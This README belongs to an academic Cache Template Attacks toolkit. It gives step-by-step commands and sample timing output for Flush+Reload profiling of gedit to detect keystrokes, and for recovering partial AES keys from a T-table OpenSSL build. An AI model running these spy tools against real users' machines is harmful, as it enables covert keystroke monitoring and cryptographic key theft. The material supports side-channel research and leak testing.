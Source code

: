 # Cache Template Attacks
This repository contains several tools to perform Cache Template Attacks and OpenSSL AES T-Table attack.

Cache Template Attacks are a new generic attack technique, allowing to profile and exploit cache-based information leakage of any program automatically, without prior knowledge of specific software versions or even specific system information.

The underlying cache attack used in this repository is Flush+Reload as presented by Yarom and Falkner in "[FLUSH+RELOAD: a High Resolution, Low Noise, L3 Cache Side-Channel Attack](https://www.usenix.org/conference/usenixsecurity14/technical-sessions/presentation/yarom)" (2014).

The "[Cache Template Attacks](https://www.usenix.org/conference/usenixsecurity15/technical-sessions/presentation/gruss)" paper by Gruss, Spreitzer and Mangard was published at USENIX Security 2015.

## One note before starting

The programs should work on x86-64 Intel CPUs independent of the operating system (as long as you can compile it). Different OS specific version of the tools are provided in subfolders.

**Warning:** This code is provided as-is. You are responsible for protecting yourself, your property and data, and others from any risks caused by this code. This code may not detect vulnerabilities of your applications. This code is only for testing purposes. Use it only on test systems which contain no sensitive data.

## Getting started: Calibration
Before starting the Cache Template Attack you have to find the cache hit/miss threshold of your system.

Use the calibration tool for this purpose:
```
cd calibration
make
./calibration 10
```
This program should print a histogram for cache hits and cache misses. The number specifies the bucket size for the histogram.

## Profiling
In this example we perform some steps by hand to illustrate what happens in the background.
Therefore, we will first find the address range to attack.
```
cat /proc/`pidof gedit`/maps | grep libgedit | grep "r-x"
7fe0674cf000-7fe067511000 r-xp 0001d000 103:04 2768721                   /usr/lib/x86_64-linux-gnu/gedit/libgedit-44.so
```
We do not care about the virtual addresses, but only the size of the address range and the offset in the file (which is 00000000 in this example). This is also the reason why we don't have to think about address space layout randomization.

**Note:** On Windows you can use the tool vmmap to find the same information.

This line can directly be passed to the profiling tool in the following step. We will create a Cache Template in this step.

During the profiling you need to perform or simulate a huge number of key presses. The profiling tool gives you 2 seconds of time to switch windows, e.g., to an already opened gedit window.

On Linux, run the following lines:
```
cd profiling
make
./spy 155 100 7fe0674cf000-7fe067511000 r-xp 0001d000 103:04 2768721                   /usr/lib/x86_64-linux-gnu/gedit/libgedit-44.so
```

Choose a cache line with a nice number of cache hits and pass it to the generic exploitation spy tool:
```
cd exploitation
make
./spy 155 /usr/lib/x86_64-linux-gnu/gedit/libgedit-44.so 0x22980
```
Now this tool prints a message exactly when a user presses a key (in gedit).
This spy tool can also be used on Windows just like that.

**Note:** Cache Template Attacks can be fully automated, but this requires the event to be automated as well.

## OpenSSL AES T-Table attack

### Manual attack - Profiling phase
In order to enable the T-Table based AES implementation, the use of a self-compiled OpenSSL library is  required. Additionally, `libcrypto.so.1.0.0` need to be placed in the folder `profiling_aes_example` and the program must run it as a shared library.  
Then run
```
cd profiling_aes_example
make
./spy
```
 
The small set of frequently accessed addresses (*i.e.*, 64) makes it easy to locate the T-table in the log file.  
To successfully complete the *profiling* phase, the initial encryptions run should be performed using a dummy key (included in `spy.cpp` code), for example:  
```
0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,   
0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F
```

In this phase, the goal is to observe 64 consecutive offsets showing a "*diagonal pattern*" and to understand the range used during the encryption; here's an example of profiling the first key byte with `NUMBER_OF_ENCTRYPTION` = 1200:  
```
0x16e540,2100,1925,1924,1923,1949,1928,1934,1933,1921,1926,1926,1900,1921,1942,1938,1933
0x16e580,1925,2100,1929,1922,1917,1924,1908,1945,1916,1911,1931,1935,1945,1928,1942,1938
0x16e5c0,1924,1917,2100,1937,1915,1942,1906,1931,1941,1939,1936,1934,1945,1958,1935,1909
0x16e600,1940,1912,1925,2100,1928,1929,1920,1911,1926,1920,1927,1926,1933,1928,1938,1926
0x16e640,1928,1916,1943,1932,2098,1918,1947,1943,1919,1915,1928,1906,1910,1939,1923,1932
0x16e680,1930,1930,1910,1924,1946,2100,1938,1950,1902,1931,1915,1943,1909,1921,1922,1934
0x16e6c0,1919,1932,1925,1915,1919,1913,2100,1937,1915,1908,1939,1915,1922,1915,1927,1918
0x16e700,1930,1932,1929,1935,1926,1942,1926,2100,1922,1937,1951,1927,1938,1951,1941,1942
0x16e740,1908,1932,1937,1931,1914,1921,1927,1947,2100,1903,1945,1923,1935,1897,1927,1936
0x16e780,1950,1949,1933,1945,1930,1939,1945,1948,1932,2099,1938,1942,1924,1919,1911,1907
0x16e7c0,1929,1921,1922,1928,1947,1924,1933,1934,1932,1924,2100,1930,1917,1935,1920,1943
0x16e800,1937,1934,1924,1900,1924,1934,1938,1930,1936,1910,1935,2100,1908,1941,1925,1933
0x16e840,1913,1914,1938,1936,1946,1939,1930,1932,1917,1946,1932,1938,2100,1917,1928,1937
0x16e880,1938,1934,1928,1932,1941,1945,1938,1942,1930,1944,1943,1923,1941,2100,1926,1933
0x16e8c0,1928,1908,1949,1930,1928,1926,1936,1931,1940,1919,1918,1926,1921,1917,2098,1930
0x16e900,1934,1923,1929,1932,1935,1938,1946,1927,1901,1950,1935,1927,1936,1934,1935,2100
```

Obviously, it's important to have a pattern with 2100 cycles along the diagonal, or values very close to 2100, such as 2099 or 2098.


### Manual attack - Exploitation phase
Subsequently, you can monitor addresses from the profile to derive information about secret keys.

In the expoitation phase, the spy tool must trigger encryptions itself using the realistic key - comment out the dummy key (or replace/add a realistic key) and run the encryptions. After 64 encryptions, the upper 4 bits of each key byte can be trivially determined.  

The following lines show an example of output for the first key byte (in fact we can see the same offsets of the previous example):  
```
0x16e540,1916,1910,1918,1930,1953,2100,1912,1923,1936,1926,1947,1926,1941,1929,1934,1921
0x16e580,1930,1946,1923,1923,2100,1936,1907,1947,1901,1906,1952,1934,1927,1952,1920,1934
0x16e5c0,1926,1929,1945,1930,1926,1934,1951,2099,1950,1943,1928,1956,1915,1913,1944,1956
0x16e600,1939,1904,1934,1932,1939,1917,2100,1941,1923,1915,1918,1930,1934,1955,1911,1920
0x16e640,1921,2100,1933,1926,1929,1937,1922,1924,1925,1932,1939,1928,1929,1933,1931,1928
0x16e680,2100,1930,1951,1936,1905,1929,1932,1917,1917,1932,1913,1928,1898,1943,1937,1919
0x16e6c0,1937,1941,1921,2100,1918,1931,1896,1938,1925,1925,1915,1931,1920,1924,1928,1943
0x16e700,1914,1944,2100,1905,1928,1926,1920,1944,1923,1934,1917,1946,1915,1940,1916,1943
0x16e740,1925,1941,1927,1933,1935,1915,1942,1926,1908,1938,1937,1932,1930,2100,1924,1921
0x16e780,1931,1933,1933,1926,1926,1938,1935,1927,1930,1929,1935,1923,2099,1941,1947,1920
0x16e7c0,1951,1944,1933,1915,1935,1937,1917,1924,1929,1914,1929,1920,1920,1940,1945,2100
0x16e800,1948,1923,1908,1937,1932,1944,1937,1934,1940,1951,1919,1945,1924,1917,2100,1939
0x16e840,1921,1938,1942,1918,1940,1958,1940,1909,1920,2099,1938,1907,1923,1929,1927,1939
0x16e880,1912,1942,1940,1933,1922,1919,1949,1936,2100,1914,1915,1931,1926,1943,1946,1944
0x16e8c0,1919,1901,1937,1907,1940,1932,1950,1923,1948,1931,1904,2098,1916,1930,1922,1918
0x16e900,1930,1937,1951,1920,1931,1945,1935,1936,1904,1922,2100,1940,1918,1961,1931,1932
```

To perform the attack manually, repeat this process for each key byte; after completing all runs you will obtain the upper 4 bits of every key byte. Note that if you proceed manually you will also need to appropriately modify the corresponding sections of `spy.cpp` between runs (for example toggling the dummy/real key, adjusting the target byte index, ecc...). If you prefer to automate the process, see the following section.

### Semi-automatic attack
If you prefer to test `spy.cpp` atomatically, you can configure `libcrypto.so.1.0.0` as described above and then run the tool:
```
cd profiling_aes_example
python3 run_attack.py
```

This tool automates both the profiling and exploitation phases: it modifies and executes the necessary code and generates the corresponding output files. For reasons of execution time and readability, the tests are performed only on the first 4 bytes of the key by default, but you can modify `run_attack.py` to run the attack on all key bytes (note that completing the full process will require significantly more time depending on your hardware).

Of course, we know that OpenSSL does not use a T-Table-based AES implementation anymore. But you can use this tool to profile any (possibly closed-source) binary to find whether it contains a crypto algorithm which leaks key dependent information through the cache. Just trigger the algorithm execution with fixed keys 


That's it, now it's up to you to find out which of your software leaks data and how it could be exploited. I hope it helps you closing these leaks.
